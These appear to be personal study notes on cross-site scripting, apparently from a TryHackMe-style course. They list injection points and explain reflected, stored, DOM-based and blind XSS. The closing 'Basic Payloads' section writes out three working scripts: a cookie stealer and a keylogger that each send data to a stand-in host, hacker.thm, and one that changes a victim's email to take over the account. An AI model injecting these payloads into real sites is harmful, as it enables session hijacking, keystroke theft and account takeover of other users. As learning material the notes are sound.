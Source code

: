 				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	
-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers

				Stored XSS				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

-- Business Logic(so you can change their Password)
<script>user.changeEmail('attacker@hacker.thm');</script>

-- Beef Framework